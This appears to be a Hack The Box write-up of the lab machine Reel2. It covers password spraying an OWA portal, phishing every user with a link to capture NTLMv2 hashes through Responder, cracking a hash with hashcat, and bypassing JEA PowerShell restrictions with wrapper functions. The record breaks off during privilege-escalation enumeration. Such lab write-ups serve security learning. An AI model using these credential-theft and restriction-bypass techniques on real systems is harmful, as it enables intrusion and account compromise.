










# HTB - Reel2

## HTB - Reel2

### Overview



Short description to include any strange things to be dealt with

## Useful Skills and Tools

### Search for all files that contain a certain text string

Using PowerShell:

```text
dir -r C:\ -EA Silent | Select-String "Password"
```

This searches through files in the entire C:\ drive, silently ignoring errors, and selecting any that contain the word "Password" in them.

**Useful thing 2**

* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.210`. The options I regularly use are:

| `Flag` | Purpose |
| :--- | :--- |
| `-p-` | A shortcut which tells nmap to scan all ports |
| `-vvv` | Gives very verbose output so I can see the results as they are found, and also includes some information not normally shown |
| `-sC` | Equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target |
| `-sV` | Does a service version scan |
| `-oA $name` | Saves all three formats \(standard, greppable, and XML\) of output with a filename of `$name` |

```text
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ nmap -sCV -n -p- -Pn -v -oA reel2 10.10.10.210                                               130 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-02-15 12:16 EST
NSE: Loaded 153 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 12:16
Completed NSE at 12:16, 0.00s elapsed
Initiating NSE at 12:16
Completed NSE at 12:16, 0.00s elapsed
Initiating NSE at 12:16
Completed NSE at 12:16, 0.00s elapsed
Initiating Connect Scan at 12:16
Scanning 10.10.10.210 [65535 ports]
Discovered open port 443/tcp on 10.10.10.210
Discovered open port 8080/tcp on 10.10.10.210
Discovered open port 80/tcp on 10.10.10.210
Discovered open port 6007/tcp on 10.10.10.210
Connect Scan Timing: About 19.17% done; ETC: 12:19 (0:02:11 remaining)
Discovered open port 6008/tcp on 10.10.10.210
Discovered open port 6011/tcp on 10.10.10.210
Discovered open port 6005/tcp on 10.10.10.210
Discovered open port 6027/tcp on 10.10.10.210
Discovered open port 6004/tcp on 10.10.10.210
Connect Scan Timing: About 47.11% done; ETC: 12:18 (0:01:08 remaining)
Discovered open port 6006/tcp on 10.10.10.210
Discovered open port 5985/tcp on 10.10.10.210
Discovered open port 6010/tcp on 10.10.10.210
Discovered open port 6002/tcp on 10.10.10.210
Discovered open port 6012/tcp on 10.10.10.210
Discovered open port 6001/tcp on 10.10.10.210
Discovered open port 6017/tcp on 10.10.10.210
Completed Connect Scan at 12:18, 106.29s elapsed (65535 total ports)
Initiating Service scan at 12:18
Scanning 16 services on 10.10.10.210
Service scan Timing: About 56.25% done; ETC: 12:20 (0:00:43 remaining)
Completed Service scan at 12:19, 59.77s elapsed (16 services on 1 host)
NSE: Script scanning 10.10.10.210.
Initiating NSE at 12:19
Completed NSE at 12:20, 67.52s elapsed
Initiating NSE at 12:20
Completed NSE at 12:20, 7.31s elapsed
Initiating NSE at 12:20
Completed NSE at 12:20, 0.00s elapsed
Nmap scan report for 10.10.10.210
Host is up (0.069s latency).
Not shown: 65519 filtered ports
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 8.5
|_http-server-header: Microsoft-IIS/8.5
|_http-title: 403 - Forbidden: Access is denied.
443/tcp  open  ssl/https?
| ssl-cert: Subject: commonName=Reel2
| Subject Alternative Name: DNS:Reel2, DNS:Reel2.htb.local
| Issuer: commonName=Reel2
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-07-30T10:12:46
| Not valid after:  2025-07-30T10:12:46
| MD5:   aa49 5cac 7115 c7fe 0628 2a6b 0124 37c4
|_SHA-1: d7ea 2696 a56f 09cb 24ce 557f 830e 86ec 5f63 0f2d
|_ssl-date: 2021-02-15T17:29:51+00:00; +9m15s from scanner time.
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6001/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6002/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6004/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6005/tcp open  msrpc      Microsoft Windows RPC
6006/tcp open  msrpc      Microsoft Windows RPC
6007/tcp open  msrpc      Microsoft Windows RPC
6008/tcp open  msrpc      Microsoft Windows RPC
6010/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
6011/tcp open  msrpc      Microsoft Windows RPC
6012/tcp open  msrpc      Microsoft Windows RPC
6017/tcp open  msrpc      Microsoft Windows RPC
6027/tcp open  msrpc      Microsoft Windows RPC
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.2.32)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.2.32
|_http-title: Welcome | Wallstant
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 9m14s

NSE: Script Post-scanning.
Initiating NSE at 12:20
Completed NSE at 12:20, 0.00s elapsed
Initiating NSE at 12:20
Completed NSE at 12:20, 0.00s elapsed
Initiating NSE at 12:20
Completed NSE at 12:20, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 241.37 seconds
```

My nmap scan showed lots of TCP ports open.  I saw 80 - HTTP, 443 - HTTPS, 8080 - HTTP, 5985 - Windows Remote Management, and RPC on a bunch of ports 6000+.

From the nmap scan I also saw a DNS domain name `Reel2.htb.local` in the port 443 information. I added this domain to `/etc/hosts` and proceeded with my enumeration.

### Port 80 - HTTP


I opened a web browser and navigated to `http://reel2.htb.local`, but this simply led to a 403 - Forbidden error page.  I also ran a dirbuster scan in the background but found nothing useful.

### Port 8080 - HTTP



Trying the same for port 8080 led to a login page for something called "WallStant".  It looked like some kind of social media site.



I created an account after clicking on the "Sign Up" button.



After logging in I found myself in something that looked like an old version of Facebook.



I saw a link for editing my profile. I was hoping for the ability to upload a profile picture, but unfortunately it did not seem to actually be an option.



I found the option I was looking for on my 'test' user's profile page.  There was an upload button for changing the profile and banner images.  First I tested it by uploading one of my enumeration screenshots.



After validating that I could indeed upload files, I tried to upload a PHP code exec script \(though I wasn't  sure if PHP even ran here...\) but the file had to be an image.  I was able to upload a photo, so next I loaded Burp to see if I could fool it into loading code.



I was able to upload my disguised PHP file, but I couldn't get code execution.  I did notice that the response contained the `X-Powered-By` header that told me that it was using PHP/7.2.32, so I checked to see if I could find any vulnerabilities associated with that version.

* [https://snyk.io/vuln/SNYK-DEBIAN10-CURL-573151](https://snyk.io/vuln/SNYK-DEBIAN10-CURL-573151)
* [https://www.cvebase.com/cve/2020/8177](https://www.cvebase.com/cve/2020/8177)
* [https://hackerone.com/reports/887462](https://hackerone.com/reports/887462)

I found a number of vulnerabilities associated with this version, including one that pointed to a version of curl that is included that could lead to code execution using the `-J` flag is used to overwrite a local file


Unfortunately, after reading the HackerOne report it seemed as if it was not useful in this case unless I could somehow make requests from the machine using curl \(not libcurl\).



Back on the Wallstant page there was a "Trending Posts" box that had three potential usernames \(and I saw that one of my XXS tests was trending!\). I wondered what a 'fika\` was, so I looked it up.

* [https://www.swedishfood.com/fika](https://www.swedishfood.com/fika) 

> fika is a traditional Swedish coffee break with friends

I wrote it down as a potential partial password and continued on.


The other trending Pages tab contained more potential usernames.

```text
-- phpMyAdmin SQL Dump
-- version 4.9.0.1
-- https://www.phpmyadmin.net/
--
-- Host: localhost
-- Generation Time: Sep 14, 2019 at 03:42 PM
-- Server version: 10.4.6-MariaDB
-- PHP Version: 7.3.9
```


Dirbuster found a `/_database` folder which contained a `wallstant.sql` SQL database.


There was not much useful information other than version numbers.


Report a problem? Sure I was having a problem with accessing your machine, could you let me in?


I wasn't able to get this to connect back to my machine, though. After testing for XSS, SQLi, and doing other tests in each of the input fields, there did not seem to be much else I could do here. I decided to see if there was anything useful on port 443.

### Port 443 - HTTPS


I checked out the certificate, but other than the domain name we had alrady discovered there was no useful information.


The HTTPS port only led to a blank IIS Welcome page. I loaded dirbuster again to see if there was anything not on the index page.


Dirbuster quickly returned a few folders, inlcuding `public` and `owa`. Both sounded interesting, so I loaded public first.

### Getting OWA credentials


navigating to [https://Reels.htb.local/public](https://Reels.htb.local/public) redirected to an Outlook Web Application page. Since I had a list of names to make usernames from, I decided to try to brute force the login. Searching for OWA brute force led to a tool by byt3bl33d3r

* [https://github.com/byt3bl33d3r/SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit)

```text
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ ~/SprayingToolkit/atomizer.py owa https://Reel2.htb.local/owa ~/rockyou_utf8.txt usernames --threads 20
[*] Using 'https://reel2.htb.local/owa' as URL
[-] Error parsing internal domain name using OWA. This usually means OWA is being hosted on-prem or the target has a hybrid AD deployment
    Do some recon and pass the custom OWA URL as the target if you really want the internal domain name, password spraying can still continue though :)
```

The first time I ran the tool it gave me a very helpful error message that explained I needed to use the full internal custom URL

* [https://docs.microsoft.com/en-us/Exchange/architecture/client-access/autodiscover?view=exchserver-2019](https://docs.microsoft.com/en-us/Exchange/architecture/client-access/autodiscover?view=exchserver-2019)

> The Autodiscover service uses one of these four methods to configure the email client. The first two work for small, single SMTP namespace organizations. The last two serve multiple-SMTP namespaces.
>
> * Connect to: [https://contoso.com/AutoDiscover/AutoDiscover.xml](https://contoso.com/AutoDiscover/AutoDiscover.xml)
> * Connect to: [https://autodiscover.contoso.com/AutoDiscover/AutoDiscover.xml](https://autodiscover.contoso.com/AutoDiscover/AutoDiscover.xml)
> * Autodiscover redirect URL for redirection: [http://autodiscover.contoso.com/autodiscover/autodiscover.xml](http://autodiscover.contoso.com/autodiscover/autodiscover.xml)
> * Search for DNS SRV record


Autodiscover.xml - kept having errors and being required to login to access this autodiscover.xml


The night I was doing this machine I kept getting crashes and all sorts of other problems, including the portal being extremely slow.  I am not sure if this is normal on this machine or if it was being overly taxed by other users.


These errors made me rethink brute-forcing the portal.  Since it seemed like other users were also pounding the server, I reset the machine and looked around a bit more to see if I had missed something.


I checked each profile page for clues for the password to log in.  tried combinations of fika + 2020 etc.  For the username I tried different combinations of username, first name, and last name.


Next I tried combinations of summer + 2020

### The OWA Portal


I was able to log into the OWA with the credentials `HTB\s.svenson:Summer2020`. 


The first thing I noticed was that the page was in Swedish, but since I have used OWA before it was not much of a problem. There was no mail, notes, contacts, or anything.

* [https://www.ired.team/offensive-security/initial-access/netntlmv2-hash-stealing-using-outlook](https://www.ired.team/offensive-security/initial-access/netntlmv2-hash-stealing-using-outlook)
* [https://insights.sei.cmu.edu/cert/2018/04/automatically-stealing-password-hashes-with-microsoft-outlook-and-ole.html](https://insights.sei.cmu.edu/cert/2018/04/automatically-stealing-password-hashes-with-microsoft-outlook-and-ole.html)

After searching for awhile for ways to steal information through Outlook, I found a few articles that explained how to get NTLMv2 hashes by sending a link to the attackers box and having the email simply viewed in the Preview Pane.


I opened the address book, and saw a long list of addresses available. I selected all them and clicked on the button to send a new email. 


I received an error from Firefox saying popups had been blocked, but clicking "Ja" \(Yes\) in the dialog box allowed the new mail window to open.


I used Google translate to send an email inviting everyone to check out the new NAS link, which was a link to my machine. I tried sending as both a web link and as an SMB share just in case.  After that I fired up `Responder` to see what I could catch.

```text
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ sudo responder -I tun0                                                                       255 ⨯
[sudo] password for zweilos: 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [OFF]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [OFF]

[+] Generic Options:
    Responder NIC              [tun0]
    Responder IP               [10.10.15.13]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']


[+] Listening for events...
[HTTP] NTLMv2 Client   : 10.10.10.210
[HTTP] NTLMv2 Username : htb\k.svensson
[HTTP] NTLMv2 Hash     : k.svensson::htb:85ab412763d672f9:83648271C68CBDA4E17F73B1EF3CD357:0101000000000000D97F28DCB804D7017D151A1EDFF498E3000000000200060053004D0042000100160053004D0042002D0054004F004F004C004B00490054000400120073006D0062002E006C006F00630061006C000300280073006500720076006500720032003000300033002E0073006D0062002E006C006F00630061006C000500120073006D0062002E006C006F00630061006C000800300030000000000000000000000000400000C4BECD0E51B4B90084B5CB9F237CDCDD2221F1DA0BE28E374F512A2DF5FA7A400A001000000000000000000000000000000000000900200048005400540050002F00310030002E00310030002E00310035002E00310033000000000000000000
```

After a short time I got a hit, with the NTLMv2 hash for the user `k.svensson`.

```text
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ hashcat --help | grep -i 'NTLM'
   5500 | NetNTLMv1 / NetNTLMv1+ESS                        | Network Protocols
   5600 | NetNTLMv2                                        | Network Protocols
   1000 | NTLM                                             | Operating System
```

Using hashcat's help I was able to identify the type id

```text
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ hashcat -O -D1,2 -a0 -m5600 hash /usr/share/wordlists/rockyou.txt                            255 ⨯
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 27

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 65 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

K.SVENSSON::htb:85ab412763d672f9:83648271c68cbda4e17f73b1ef3cd357:0101000000000000d97f28dcb804d7017d151a1edff498e3000000000200060053004d0042000100160053004d0042002d0054004f004f004c004b00490054000400120073006d0062002e006c006f00630061006c000300280073006500720076006500720032003000300033002e0073006d0062002e006c006f00630061006c000500120073006d0062002e006c006f00630061006c000800300030000000000000000000000000400000c4becd0e51b4b90084b5cb9f237cdcdd2221f1da0be28e374f512a2df5fa7a400a001000000000000000000000000000000000000900200048005400540050002f00310030002e00310030002e00310035002e00310033000000000000000000:kittycat1

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: K.SVENSSON::htb:85ab412763d672f9:83648271c68cbda4e1...000000
Time.Started.....: Tue Feb 16 19:02:56 2021 (0 secs)
Time.Estimated...: Tue Feb 16 19:02:56 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   112.9 kH/s (2.57ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 8192/14344385 (0.06%)
Rejected.........: 0/8192 (0.00%)
Restore.Point....: 4096/14344385 (0.03%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: newzealand -> whitetiger

Started: Tue Feb 16 19:02:30 2021
Stopped: Tue Feb 16 19:02:58 2021
```

And then I was able to crack the has in just a few seconds. `k.svensson`'s password was `kittycat1`

## Initial Foothold

```text
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ evil-winrm -u k.svensson -p kittycat1 -i 10.10.10.210                                          1 ⨯

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mThe term 'Invoke-Expression' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.    + CategoryInfo          : ObjectNotFound: (Invoke-Expression:String) [], CommandNotFoundException    + FullyQualifiedErrorId : CommandNotFoundException> ls
The term 'Invoke-Expression' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (Invoke-Expression:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
[0;31m*Evil-WinRM*[0m[0;1;33m PS [0mThe term 'Invoke-Expression' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try again.    + CategoryInfo          : ObjectNotFound: (Invoke-Expression:String) [], CommandNotFoundException    + FullyQualifiedErrorId : CommandNotFoundException>
```

I was able to connect with `Evil-WinRM` using the credentials for `k.svensson:kittycat1` but the shell I got did not seem to be working properly, so I loaded PowerShell for Linux instead.

* [https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.1)
* [https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-7.1)

```text
┌──(zweilos㉿kali)-[~/htb/reel2]
└─$ pwsh
PowerShell 7.0.0
Copyright (c) Microsoft Corporation. All rights reserved.

https://aka.ms/powershell
Type 'help' to get help.

   A new PowerShell stable release is available: v7.1.2 
   Upgrade now, or check out the release page at:       
     https://aka.ms/PowerShell-Release?tag=v7.1.2       

PS /home/zweilos/htb/reel2> $newSession = New-PSSession -ComputerName 10.10.10.210 -Credential HTB\k.svensson -Authentication Negotiate                                                                       

PowerShell credential request
Enter your credentials.                                                                                
Password for user HTB\k.svensson: *********

PS /home/zweilos/htb/reel2> Enter-PSSession $newSession
```

I was able to login after using `pwsh` and PowerShell remoting.


NOTE: If you get the below error, close PowerShell, then install **`gss-ntlmssp`**. This will allow you to use NTLM authentication.

```text
New-PSSession: [10.10.10.210] Connecting to remote server 10.10.10.210 failed with the following error message : acquiring creds with username only failed Unspecified GSS failure.  Minor code may provide more information SPNEGO cannot find mechanisms to negotiate For more information, see the about_Remote_Troubleshooting Help topic.
```

* [https://www.reddit.com/r/PowerShell/comments/6itek2/powershell\_remoting\_linux\_windows\_with\_spnego/dj9auuq/](https://www.reddit.com/r/PowerShell/comments/6itek2/powershell_remoting_linux_windows_with_spnego/dj9auuq/) 


```text
[10.10.10.210]: PS>whoami /all
The term 'whoami.exe' is not recognized as the name of a cmdlet, function, script file, or operable 
program. Check the spelling of the name, or if a path was included, verify that the path is correct 
and try again.
    + CategoryInfo          : ObjectNotFound: (whoami.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```

Another bad sign, after so many other broken/difficult things....

```text
[10.10.10.210]: P> function test {whoami}   
htb\k.svensson
```

After some testing, I discovered I could run commands embedded inside a custom function.

```text
[10.10.10.210]: PS>function test {whoami /all}
USER INFORMATION
----------------

User Name      SID                                          
============== =============================================
htb\k.svensson S-1-5-21-158661246-3153678129-2567348495-1165


GROUP INFORMATION
-----------------

Group Name                                  Type             SID          Attributes                                        
=========================================== ================ ============ ==================================================
Everyone                                    Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448                                                    


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State  
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

Not much to work with in this user's permissions

I found a shortcut for doing commands like this by using anonymous functions: [https://vexx32.github.io/2018/10/26/Anonymous-Functions/](https://vexx32.github.io/2018/10/26/Anonymous-Functions/)

```text
[10.10.10.210]: P> .{ls}


    Directory: C:\Users\k.svensson\Documents


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
d-----        7/30/2020   5:14 PM                WindowsPowerShell                                    
-a----        7/31/2020  11:58 AM           5600 jea_test_account.psrc                                
-a----        7/31/2020  11:58 AM           2564 jea_test_account.pssc
```

This made navigating much easier, and only a few characters more than typing the commands normally

### JEA - Just Enough Administration

I googled the `jea_test_account.psrc` file and found that is related to "Just Enough Administration", which after a little research I was able to find the Microsoft documentation that described it.

* [https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/role-capabilities?view=powershell-7.1](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/role-capabilities?view=powershell-7.1)

> A role capability is a PowerShell data file with the .psrc extension that lists all the cmdlets, functions, providers, and external programs that are made available to connecting users.

This is the file that seems to be limiting the commands that are available when I logged in. This is also why `Evil-Winrm` broke, since it seems to use `Invoke-Expression` for all of its commands. I have bypassed similar restrictions by using functions before, so that is how what I tried here worked.

```text
CommandType Name Version Source

Function Clear-Host  
Function Exit-PSSession  
Function Get-Command  
Function Get-FormatData  
Function Get-Help  
Function Measure-Object  
Function Out-Default  
Function Select-Object
```

I checked the list of currently available commands, and was given a very limited set. This is how JEA limits users. However it explicitly says on the documentation page:

> For more complex command invocations that make this approach difficult, consider using implicit remoting or creating custom functions that wrap the functionality you require.

When I ran `Get-Command` again inside my custom function, the list kept going and going. It seemed like I was able to use the full gamut of commands inside a function, but very few in the normal session.

#### JEA Security Considerations

* [https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/security-considerations?view=powershell-7.1\#jea-doesnt-protect-against-admins](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/security-considerations?view=powershell-7.1#jea-doesnt-protect-against-admins)

> One of the core principles of JEA is that it allows non-admins to do some admin tasks. JEA doesn't protect against users who already have administrator privileges. Users who belong **Domain Admins**, local **Administrators**, or other highly privileged groups can circumvent JEA's protections via another means. For example, they could sign in with RDP, use remote MMC consoles, or connect to unconstrained PowerShell endpoints. Also, local admins on a system can modify JEA configurations to allow additional users or change a role capability to extend the scope of what a user can do in their JEA session. It's important to evaluate your JEA users' extended permissions to see if there are other ways to gain privileged access to the system.

Now if only I could gain access to an Administrator account...

### User.txt

```text
[10.10.10.210]: P> .{cd ..\Desktop/} 
    Directory: C:\Users\k.svensson\Desktop


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
d-----        2/12/2021   5:12 PM                WinDirStatPortable                                   
-a----         2/8/2021   5:55 PM        1490312 procexp64.exe                                        
-a----        7/30/2020   1:19 PM           2428 Sticky Notes.lnk                                     
-a----         2/8/2021   5:54 PM        2591096 Sysmon64.exe                                         
-ar---        2/15/2021  11:33 PM             34 user.txt


[10.10.10.210]: P> .{type user.txt}
88fe9f1ba18d0a89e4b67277fba820de
```

On `k.svensson`'s Desktop I found the `user.txt` proof file.

## Path to Power \(Gaining Administrator Access\)

### Enumeration as k.svensson

Saw a link for the sticky notes program, which seemed like a good place to search for secrets.  Next I searched the user's folder for any files that referenced "sticky" to see what I could find.

```text
[10.10.10.210]: PS>.{dir -r C:\Users\k.svensson\ -EA Silent | Select-String "sticky"}

Sticky Notes.lnk:1:L�F�@ �m�Bcf��m�Bcf��4��V�02DG
▒Yr?�D��U��k0�%��Ucf�t�cf��tCFSF1�P9ZAppDatat▒Y^���H�g3��(����ߟgVA�
G��k��@ ��P9Z�P9Z.��@��AppDataBP1�PjZLocal<
��P9Z�PjZ.���LocalZ1�PhZProgramsB
��PhZ�PhZ.�     ���Programs▒b1�PjZstickynotesH
��PhZ�PjZ.�����stickynotes▒n2V��NS- stickynotes.exeP
��PiZ�PiZ.��stickynotes.exeu-t
�@�C:\Users\k.svensson\AppData\Local\Programs\stickynotes\stickynotes.exe▒A 
Sticky Note Application.5..\AppData\Local\Programs\
stickynotes\stickynotes.exe6C:\Users\k.svensson\App
Data\Local\Programs\stickynotesFC:\Users\k.svensson
\AppData\Local\Programs\stickynotes\stickynotes.exe
�%USERPROFILE%\AppData\Local\Programs\stickynotes\stickynotes.exe

%USERPROFILE%\AppDa
ta\Local\Programs\stickynotes\stickynotes.exe


�|��I�J�H��K�2
`�Xreel2�R�CJ��I�mE��jk���UH����
                                )/��R�CJ��I�mE��jk���UH����
                                                           )/�W
�e1SPS����Oh�+'��I Sticky Note Application.
�1SPS�XF�L8C���&�m�m.S-1-5-21-158661246-3153678129-2
567348495-1165]1SPSU(L�y�9K����-���Aml.playork.st
ickynotes
```

The Sticky Notes application was installed in `%USERPROFILE%\AppData\Local\Programs\stickynotes\`. This seemed like a likely place for the user to have stored interesting information, such as potential credentials.


NOTE: I lost my shell at one point so it hung on any commands. If you get the above below after a hung PowerShell PSSession, use the shortcut Ctrl-L to exit and return to your local prompt!

```text
[10.10.10.210]: PS>Starting a command on the remote server failed with the following error message : ERROR_WSMAN_INVALID_SELECTORS: The WS-Management service cannot process the request because the request contained invalid selectors for the resource.  For more information, see the about_Remote_Troubleshooting Help topic.
```

Results may vary with this. For me, it did not work, and I had to kill the terminal entirely.


```text
[10.10.10.210]: P> .{Get-ComputerInfo}                                                                 
                                                                                                                                                                                                              WindowsBuildLabEx                                       : 9600.19812.amd64fre.winblue_ltsb_escrow.2008                                                           14-1823                                      
WindowsCurrentVersion                                   : 6.3
WindowsEditionId                                        : ServerStandard
WindowsInstallationType                                 : Server
WindowsInstallDateFromRegistry                          : 7/28/2020 12:30:51 PM
WindowsProductId                                        : 00252-00117-10400-AA268
WindowsProductName                                      : Windows Server 2012 R2 Standard
WindowsRegisteredOrganization                           : 
WindowsRegisteredOwner                                  : Windows User
WindowsSystemRoot                                       : C:\Windows
BiosCharacteristics                                     : 

...snipped...                    

OsSerialNumber                                          : 
OsServicePackMajorVersion                               : 
OsServicePackMinorVersion                               : 
OsStatus                                                : 
OsSuites                                                : 
OsServerLevel                                           : FullServer
KeyboardLayout                                          : 
TimeZone                                                : (UTC+01:00) Amsterdam, Berlin, Bern, Rome, 
                                                          Stockholm, Vienna
LogonServer                                             : \\REEL2
PowerPlatformRole                                       : Desktop
HyperVisorPresent                                       : 
HyperVRequirementDataExecutionPreventionAvailable       : 
HyperVRequirementSecondLevelAddressTranslation          : 
HyperVRequirementVirtualizationFirmwareEnabled          : 
HyperVRequirementVMMonitorModeExtensions                : 
DeviceGuardSmartStatus                                  : Off
DeviceGuardRequiredSecurityProperties                   : 
DeviceGuardAvailableSecurityProperties                  : 
DeviceGuardSecurityServicesConfigured                   : 
DeviceGuardSecurityServicesRunning                      : 
DeviceGuardCodeIntegrityPolicyEnforcementStatus         : 
DeviceGuardUserModeCodeIntegrityPolicyEnforcementStatus :
```

I was denied using the `systeminfo` command, but `Get-ComputerInfo` gave me a little bit of information. The platform was running on Windows Server 2012 R2

There didn't seem to be anything in the `Appdata\Local\stickynotes\` folder of use, so I checked `Roaming` to see if there was anything useful there

```text
[10.10.10.210]: PS>.{cd ../../../Roaming}
    Directory: C:\Users\k.svensson\AppData\Roaming


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
d-----        7/30/2020   1:17 PM                Adobe                                                
d---s-        7/30/2020   2:43 PM                Microsoft                                            
d-----        7/30/2020   2:27 PM                Mozilla                                              
d-----        7/30/2020   1:23 PM                stickynotes                                          


[10.10.10.210]: PS>.{cd stickynotes}     
    Directory: C:\Users\k.svensson\AppData\Roaming\stickynotes


Mode                LastWriteTime         Length Name                                                 
----                -------------         ------ ----                                                 
d-----        2/16/2021   5:08 PM                blob_storage                                         
d-----        7/30/2020   1:19 PM                Cache                                                
d-----        7/30/2020   1:19 PM                GPUCache                                             
d-----        7/30/2020   1:19 PM                Local Storage                                        
d-----        7/30/2020   1:19 PM                logs                                                 
-a----        7/30/2020   1:19 PM             36 .updaterId                                           
-a----        7/30/2020   1:19 PM          20480 Cookies                                              
-a----        7/30/2020   1:19 PM              0 Cookies-journal                                      
-a----        7/30/2020   1:23 PM            159 Network Persistent State
```

a

```text
[10.10.10.210]: PS>.{cd logs}       
